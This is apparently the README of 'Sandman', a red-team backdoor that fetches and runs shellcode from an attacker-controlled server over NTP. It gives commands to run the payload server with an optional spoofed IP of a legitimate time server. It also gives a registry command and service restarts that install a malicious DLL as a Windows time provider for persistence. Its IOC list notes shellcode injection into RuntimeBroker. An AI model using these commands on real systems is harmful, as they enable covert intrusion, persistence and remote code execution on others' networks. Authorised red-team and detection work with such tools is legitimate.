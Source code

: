 # Sandman

![Image](https://img.shields.io/badge/C%23-239120?style=for-the-badge&logo=c-sharp&logoColor=white") ![image](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white) ![image](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)

Sandman is a backdoor that is meant to work on hardened networks during red team engagements.

Sandman works as a stager and leverages NTP (a protocol to sync time & date) to get and run an arbitrary **shellcode** from a pre-defined server.

Since NTP is a protocol that is overlooked by many defenders resulting in wide network accessibility.

## Usage

![Sandman](images/sandman.png)

### SandmanServer (Usage)

Run on windows / *nix machine:

```sh
python3 sandman_server.py "Network Adapter" "Payload Url" "optional: ip to spoof"
```

- Network Adapter: The adapter that you want the server to listen on (for example Ethernet for Windows, eth0 for *nix).

- Payload Url: The URL to your shellcode, it could be your agent (for example, CobaltStrike or meterpreter) or another stager.

- IP to Spoof: If you want to spoof a legitimate IP address (for example, time.microsoft.com's IP address).

### SandmanBackdoor (Usage)

To start, you can compile the SandmanBackdoor as [mentioned below](#setup), because it is a single lightweight C# executable you can execute it via ExecuteAssembly, run it as an NTP provider or just execute/inject it.

### SandmanBackdoorTimeProvider (Usage)

To use it, you will need to follow simple steps:

- Add the following registry value:

```bat
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\Path\To\TheDll.dll"
```

- Restart the w32time service:

```bat
sc stop w32time
sc start w32time
```

**NOTE: Make sure you are compiling with the x64 option and not any CPU option!**

## Capabilities

- Getting and executing an arbitrary payload from an attacker's controlled server.

- Can work on hardened networks since NTP is usually allowed in FW.

- Impersonating a legitimate NTP server via IP spoofing.

## Setup

### SandmanServer (Setup)

- Python 3.9

- The requirements are specified in the [requirements](/SandmanServer/requirements.txt) file.

### SandmanBackdoor (Setup)

To compile the backdoor I used Visual Studio 2022, but as mentioned in the [usage section](#usage) it can be compiled with both VS2022 and CSC.
You can compile it either using the USE_SHELLCODE and use Orca's shellcode or without USE_SHELLCODE to use WebClient.

### SandmanBackdoorTimeProvider (Setup)

To compile the backdoor I used Visual Studio 2022, you will also need to install [DllExport](https://github.com/3F/DllExport) (via Nuget or any other way) to compile it.
You can compile it either using the USE_SHELLCODE and use Orca's shellcode or without USE_SHELLCODE to use WebClient.

## IOCs

- A shellcode is injected into RuntimeBroker.

- Suspicious NTP communication starts with a known magic header.

- YARA rule.

## Contributes

- [Orca](https://github.com/ORCx41/) for the shellcode.

- Special thanks to [Tim McGuffin](https://twitter.com/NotMedic) for the [time provider idea](https://twitter.com/NotMedic/status/1561354598744473601).

Thanks to those who already contributed and I'll happily accept contributions, make a pull request and I will review it!
